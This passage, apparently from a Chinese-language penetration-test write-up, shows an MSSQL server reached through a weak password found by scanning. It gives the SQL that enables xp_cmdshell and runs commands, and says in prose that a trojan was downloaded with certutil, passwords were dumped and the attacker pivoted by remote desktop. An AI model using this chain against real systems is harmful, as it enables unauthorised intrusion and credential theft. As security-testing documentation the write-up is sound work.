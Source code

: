 ### 路径3 运维机器

这里通过刚才fscan扫描到的mssql弱口令打的一台运维终端主机

```php
# 开启xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp_cmdshell', 1;RECONFIGURE;
# 命令执行
exec master..xp_cmdshell "whoami"
```

相关文章

[https://www.cnblogs.com/websecyw/p/11016974.html](https://www.cnblogs.com/websecyw/p/11016974.html)

确定命令正常执行是个system权限，certutil下载木马上线，抓出密码后确定管理员不在线远程到桌面。

![image.png](assets/1698900782-9131f7162962ab74f7f2147d30b081d1.png)

### 路径4 服务器所有权限

远程到终端上面才知道这台机器是运维的机器，终端上面打开了sql server连接软件，同样使用上面的命令开启xp\_cmdshell执行命令，这里sql server数据库做了降权操作，权限是sqlserver服务权限。

![image.png](assets/1698900782-8c7ca305a07af1007b9f22461fde7027.png)

